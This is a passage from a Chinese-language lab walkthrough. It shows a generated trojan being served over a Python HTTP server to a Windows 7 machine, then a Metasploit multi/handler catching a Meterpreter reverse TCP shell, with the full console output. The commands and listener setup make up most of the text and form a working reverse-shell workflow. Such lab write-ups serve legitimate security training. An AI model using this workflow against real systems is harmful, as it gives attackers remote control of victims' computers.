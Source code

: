 在生成的木马的目录下，

	python -m SimpleHTTPServer 8000


win7访问网址下载文件(http://192.168.2.131:8000)

win7运行木马，kali开始监听，

```
msf5 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf5 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp 
payload => windows/x64/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 192.168.2.131
LHOST => 192.168.2.131  
msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.2.131:4444 
[*] Sending stage (201283 bytes) to 192.168.2.138
[*] Meterpreter session 1 opened (192.168.2.131:4444 -> 192.168.2.138:55190) at 2020-09-17 23:36:19 +0800

meterpreter > 
```

当win7点击之后，msf就会成功监听到会话。

![whgL2F.png](https://s1.ax1x.com/2020/09/18/whgL2F.png)

win7进程里可看到。
